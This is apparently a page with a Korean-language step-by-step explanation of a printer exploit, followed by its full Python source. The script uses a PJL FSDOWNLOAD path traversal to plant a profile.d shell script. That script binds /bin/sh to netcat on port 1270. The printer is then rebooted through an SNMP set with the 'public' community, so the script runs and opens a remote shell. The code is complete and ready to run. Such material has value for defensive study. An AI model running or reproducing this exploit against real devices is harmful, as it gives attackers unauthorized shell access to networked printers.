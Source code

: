 # 프린터 익스플로잇 코드 분석
```
이 코드는 특정 IP와 포트로 연결하여
프린터의 취약점을 악용하는 익스플로잇 코드입니다. 

프린터의 파일 시스템에 악성 쉘 스크립트를 업로드하고, 
SNMP를 통해 프린터를 재부팅시켜 해당 스크립트를
실행하도록 하는 것이 주요 목적입니다.
```

## 코드 분석

1. 필요한 라이브러리들을 임포트합니다 (socket, sys, easysnmp의 snmp_set)

2. `profile_d_script` 변수에 악성 쉘 스크립트 내용을 저장합니다. 
  - 이 스크립트는 `/tmp/pwned`라는 named pipe를 만들고, 이를 통해 들어오는 입력을 `/bin/sh`로 실행하며, 
  - 그 출력을 다시 named pipe로 보내는 한편, 1270 포트로 `nc`를 실행하여 원격에서 쉘에 접근할 수 있게 합니다.

3. 명령행 인자가 2개가 아니면 사용법을 출력하고 종료합니다.

4. 첫번째 명령행 인자를 IP로, 두번째 인자를 포트로 하여 서버 주소를 지정합니다. 이 주소로 소켓 연결을 생성합니다.

5. `dir_query` 변수에 프린터 파일 시스템에 파일을 쓰기 위한 PJL(Printer Job Language) 명령을 저장합니다. 
  - `FSDOWNLOAD` 명령을 사용하여 `profile_d_script`의 내용을 `"0:/../../rw/var/etc/profile.d/lol.sh"`에 씁니다.
  - 이는 프린터의 파일 시스템을 탐색하여 `profile.d` 디렉토리에 악성 스크립트를 업로드하는 것입니다.

6. 소켓을 통해 `dir_query`를 전송하고 연결을 닫습니다. 

7. 새로운 소켓 연결을 생성하고, `FSQUERY` 명령을 사용하여 업로드한 파일의 내용을 읽어옵니다. 응답을 출력합니다.

8. `easysnmp` 라이브러리의 `snmp_set` 함수를 사용하여 프린터의 SNMP OID `.1.3.6.1.2.1.43.5.1.1.3.1`의 값을 4로 설정합니다. 
  - 이는 프린터를 재부팅하도록 하는 명령입니다.

9. 완료 메시지를 출력하고, 약 30초 후에 1270 포트에 접속해보라고 안내합니다.
  - 프린터가 재부팅되면서 `profile.d`의 스크립트가 실행될 것이고, 1270 포트로 쉘에 접근할 수 있게 됩니다.

## 위험성

이 코드는 프린터의 취약한 설정을 악용하여 악성 코드를 심고 원격에서 실행하도록 하는 위험한 익스플로잇입니다. 
프린터 등의 임베디드 시스템도 보안에 각별한 주의를 기울여야 함을 보여주는 사례입니다.
특정 프린터 모델의 펌웨어 취약점을 악용한 것으로 보이며, 패치되지 않은 구형 장비들이 노출될 위험이 있어 보입니다.


```
import socket
import sys
from easysnmp import snmp_set

profile_d_script = ('if [ ! -p /tmp/pwned ]; then\n'
                    '\tmkfifo /tmp/pwned\n'
                    '\tcat /tmp/pwned | /bin/sh 2>&1 | /usr/bin/nc -l 1270 > /tmp/pwned &\n'
                    'fi\n')

if len(sys.argv) != 3:
    print('\nUsage: upload.py [ip] [port]\n')
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(2)
server_address = (sys.argv[1], int(sys.argv[2]))
print('connecting to %s port %s' % server_address)
sock.connect(server_address)

dir_query = '@PJL FSDOWNLOAD FORMAT:BINARY SIZE=' + str(len(profile_d_script)) + ' NAME="0:/../../rw/var/etc/profile.d/lol.sh"\r\n'
dir_query += profile_d_script
dir_query += '\x1b%-12345X'
sock.sendall(dir_query)
sock.close()

sock1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock1.connect(server_address)
dir_query = '@PJL FSQUERY NAME="0:/../../rw/var/etc/profile.d/lol.sh"\r\n'
sock1.sendall(dir_query)

response = ''
while True:
    data = sock1.recv(1).decode()
    if '\n' == data:
        break
    response += data

print(response)
snmp_set('.1.3.6.1.2.1.43.5.1.1.3.1', 4, 'integer', hostname='192.168.1.158', community='public', version=1)
print('Done! Try port 1270 in ~30 seconds')

```
